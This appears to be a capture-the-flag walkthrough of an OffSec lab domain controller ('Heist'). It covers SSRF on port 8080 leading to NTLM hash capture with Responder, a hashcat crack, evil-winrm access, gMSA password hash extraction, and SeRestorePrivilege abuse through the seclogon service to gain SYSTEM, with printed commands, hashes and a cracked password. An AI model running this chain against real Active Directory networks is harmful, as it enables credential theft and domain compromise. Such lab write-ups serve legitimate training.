


# Network Enumeration

```bash
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8080/tcp  open  http-proxy
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49703/tcp open  unknown
49755/tcp open  unknown
```


 # Port Enumeration

## Port 8080


There just a search page. And if we search something, the end of link address will add `url=`.


So maybe we can use local http server to try to get the server hash.



Yes the url with our http server will access our kali, but can't running any webshell.


So set up a `Responder`.

```bash]
responder -I tun0 -wv
```


Then access myself again.


Get the user NTLM2 hash with Responder.


Use hashcat to crack this hash, get the password is `california`, the password owner is enox.


Use `crackmapexec` to test if it's work.


Then use `evil-winrm` to get the shell.


# PE

## Information Collection

### Check User Privileges


### Interesting Service


### Active Ports


### Check folder permission


### Check application permission


### Check the Managed Service Account

```powershell
PS C:\Program Files\nssm-2.24> Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
DistinguishedName : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
Enabled           : True
Name              : svc_apache
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : d40bc264-0c4e-4b86-b3b9-b775995ba303
SamAccountName    : svc_apache$
SID               : S-1-5-21-537427935-490066102-1511301751-1105
UserPrincipalName : 

```

### Import `PowerView` to get `svc_apache` account's information

```powershell
PS C:\users\enox> . .\powerview.ps1
. .\powerview.ps1
PS C:\users\enox> Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames

CN                                         : svc_apache
DNSHostName                                : DC01.heist.offsec
DistinguishedName                          : CN=svc_apache,CN=Managed Service Accounts,DC=heist,DC=offsec
MemberOf                                   : {CN=Remote Management Users,CN=Builtin,DC=heist,DC=offsec}
Created                                    : 7/20/2021 4:23:44 AM
LastLogonDate                              : 9/14/2021 8:27:06 AM
PasswordLastSet                            : 7/20/2021 4:23:44 AM
msDS-ManagedPasswordInterval               : 30
PrincipalsAllowedToDelegateToAccount       : {}
PrincipalsAllowedToRetrieveManagedPassword : {CN=DC01,OU=Domain Controllers,DC=heist,DC=offsec, CN=Web 
                                             Admins,CN=Users,DC=heist,DC=offsec}
ServicePrincipalNames                      : 

```

Here can see the user `svc_apache` is the part of `Web Admins`.

### Get AD Group Member 

```powershell
PS C:\users\enox> Get-ADGroupMember 'Web Admins'

distinguishedName : CN=Naqi,CN=Users,DC=heist,DC=offsec
name              : Naqi
objectClass       : user
objectGUID        : 82c847e5-1db7-4c00-8b06-882efb4efc6f
SamAccountName    : enox
SID               : S-1-5-21-537427935-490066102-1511301751-1103
```

### Use `GMSAPasswordReader.exe` to get the user `svc_apache` password.

```powershell
PS C:\users\enox> .\GMSAPasswordReader.exe --accountname "svc_apache"
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 009E42B78BF6CEA5F5C067B32B99FCA6
[*]       aes128_cts_hmac_sha1 : 39ABE20822B461D6FF8BA40374899406
[*]       aes256_cts_hmac_sha1 : 9160C18DAF928932F87487A84AEF32C37A712E4CF78CF77E394EE5B0E1263F73
[*]       des_cbc_md5          : 646BC71F197F13B5

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 654D2E4EBE552389CD0FD7414DE561C0
[*]       aes128_cts_hmac_sha1 : ADA6CDA0AB0C87301498657B27B9F3A0
[*]       aes256_cts_hmac_sha1 : EC93BFFB04886466DD4EC13C35FA2185C5A61B009179F012B787B6E24B2F185A
[*]       des_cbc_md5          : 9E340723700454E9

PS C:\users\enox> 

```

###  Use `svc_apache$` hash to login with `evil-winrm`


### Check the user `svc_apache$` privilege.


### Interesting Privilege


User `svc_apache` has `SeRestorePrivilege` Privilege, check on [SeRestorePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#serestoreprivilege-3.1.5), it told us 

Check on [Github](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)


### Try to check all service

Cause the user is `Service Account` so that maybe with some permission to control all services.

```powershell
*Evil-WinRM* PS C:\Users\svc_apache$\documents> cmd.exe /c sc queryex state=all type=service

*Evil-WinRM* PS C:\Users\svc_apache$\documents> Get-Service | findstr -i "manual"

*Evil-WinRM* PS C:\Users\svc_apache$\documents> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

*Evil-WinRM* PS C:\Users\svc_apache$\documents>gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "manual"} | select PathName,DisplayName,Name

```

But the result is not good. Always `Access Denied` or `This operation might require other privileges.`

### Check the privileges that are required by the task

we see the privileges that are required by the task (`SeRestorePrivilege` is listed), the object name (who executes the service = SYSTEM), and the start value (0x3 = manual):

```powershell
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```


### Confirm this is service is set to manual start

```powershell
cmd.exe /c sc qc seclogon
```



 Checking the registry does provide more detail.

###  Confirm that we have the correct permissions to manipulate this service

```powershell
cmd.exe /c sc sdshow seclogon
```


## Compiling SeRestoreAbuse.exe from an SLN Using Visual Studio, get administrator shell.

Download goods from [Github](https://github.com/xct/SeRestoreAbuse)


Then `Build Solution`


Setting up http server with python


Download `SeRestoreAbuese` from kali.


Running `EnableSeRestorePrivilege.ps` in target machine.


Then running `SeRestoreAbuse` at target machine, get shell.


